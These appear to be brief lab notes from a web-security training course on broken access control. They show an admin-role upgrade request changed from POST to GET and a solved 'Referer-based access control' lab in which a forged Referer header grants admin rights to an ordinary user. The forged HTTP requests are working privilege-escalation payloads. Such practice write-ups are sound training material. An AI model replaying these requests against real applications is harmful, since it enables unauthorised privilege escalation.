 ```
POST /admin-roles - OK
action=upgrade&confirmed=true&username=wiener
---
GET /admin-roles?action=upgrade&confirmed=true&username=wiener - OK
```

### Lab: Referer-based access control

This lab controls access to certain admin functionality based on the Referer header.

The workflow is as follows:

*   GET /admin-roles?username=carlos\&action=upgrade

    Referer: https://acfd1f341ed97ec7c0d9686c002500aa.web-security-academy.net/admin

    OR
*   GET /admin-roles?username=carlos\&action=downgrade

    Referer: https://acfd1f341ed97ec7c0d9686c002500aa.web-security-academy.net/admin

Answer:

```
GET /admin-roles?username=wiener&action=upgrade
Referer: https://acfd1f341ed97ec7c0d9686c002500aa.web-security-academy.net/admin
```
